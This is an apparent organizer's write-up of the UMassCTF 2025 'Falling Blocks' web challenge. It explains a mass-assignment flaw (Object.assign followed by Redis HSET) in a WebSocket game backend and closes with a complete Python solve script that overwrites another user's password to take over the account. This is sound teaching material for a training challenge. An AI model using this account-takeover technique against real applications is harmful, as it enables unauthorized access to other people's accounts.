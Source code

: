 ```yaml
---
title: "UMassCTF 2025 - Falling Blocks"
date: "2025-05-17"
tags: 
- author
- web
---
```


This is my second time being an author and organizer for UMassCTF. Since this year's theme was flash/io games, it was a great opportunity for me to incorporate web game elements. So I decided to create a web challenge using WebSockets themed on the "Falling Blocks" game where the player has to dodge the falling blocks and the longer you survive the higher score you'll get. The vulnerability itself wasn't hard to find and exploit, but I aimed to make it subtle and more real-life-like.

## Description

One of the most iconic games has made a come back as the Falling Blocks game! However, there are 3 unbeatable players dominating top 3 at all times. Can you hack the game and make it to top 3?

## The Flag

![web1_1](images/web1.png)
Examining the source code, the goal is to obtain a score greater than 10000 and the flag will be given to us when we logout. The score is obtained by Redis' `client.HGET` method. According to the [documentation](https://redis.io/docs/latest/commands/hget/), "it returns the value associated with field in the hash stored at key". In this case, the key is `req.user.username` and the field is `username`.

Further looking through the code shows that the game uses WebSockets to send the score to the backend `nodejs` server. However, we can directly modify the score because there's a check that sets it to 0 if we try to set it above 10000.

![web1_1](images/web2.png)


## Mass Assignment in JavaScript

We see that we have full control over `data` as it's whatever data sent via WebSockets. WebSockets essentially a communication protocol similar to HTTP. WebSockets keep the connection open and allows for real-time, two-way communication often when constant updates are needed. So just like HTTP, we can intercept and modify the data.

![web1_1](images/web3.png)

The vulnerability exists in the lines `userdata = Object.assign(userdata, data)` and `await client.HSET(userdata.username, userdata)`. The [documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/assign) says it "copies all enumerable own properties from one or more _source objects_ to a _target object_. It returns the modified target object". Scrolling down to the section "Merging objects with same properties" says: "The properties are overwritten by other objects that have the same properties later in the parameters order." This means if `data` will overwrite existing key-value pairs in `userdata`, and new key-value pairs will be added to `userdata`. The line `await client.HSET(userdata.username, userdata)` will then allow any users to directly control all the fields and values associated with the key `userdata.username` in the Redis database (See [documentation](https://redis.io/docs/latest/commands/hset/)).

## Password Reset

When the server starts, there are 3 users created with randomly generated passwords and scores set greater than 10000. At first, it might seem like they're just there dominating the top 3 in the scoreboard, and our goal is to surpass them. But remember the mass assignment vulnerability we found earlier? Since we are able to reset any fields and values associated with the username, what if we just reset the password of any of the top users and take over their account? 

![web1_1](images/web4.png)

The reason why we have to abuse the mass assignment vulnerability is because there's an authentication in `utils.authMiddleware` that prevents us from directly changing our current user's username by verifying the jwt token with a secret token that's only known to the server.

![web1_1](images/web5.png)

## Putting it All Together

Now, we can put everything together that leverages the mass vulnerability assignment to account takeover to getting the flag:

1. Register a new user
2. Login as the new user
3. Craft and send a WebSocket to reset the password of user `Ssundae`
4. Logout and login as user `Ssundae` with the new password
5. Logout again to obtain the flag

### Final Solve Script

```python
from websocket import create_connection

import requests

import json

import re

  
remote = "localhost"

base_url = f"http://{remote}"

  
s = requests.Session()

username = "test"

password = "test"

s.post(f"{base_url}/register", data={"username": username, "password": password})

s.post(f"{base_url}/login", data={"username": username, "password": password})

user_cookie = s.cookies.get("user")

cookie_header = f"user={user_cookie}"

headers = {

'Cookie': cookie_header,

}

ws = create_connection(f"ws://{remote}", header=headers)

username = "Ssundae"

password = "win"

data = {"type": "gameOver", "score": 200, "time": 2, "username": username, "password": password}

message = json.dumps(data)

ws.send(message)

s.get(f"{base_url}/logout")

s.post(f"{base_url}/login", data={"username": username, "password": password})

flag = re.search(r'(UMASS{.*?})',s.get(f"{base_url}/logout").text).group()

print(flag)
```

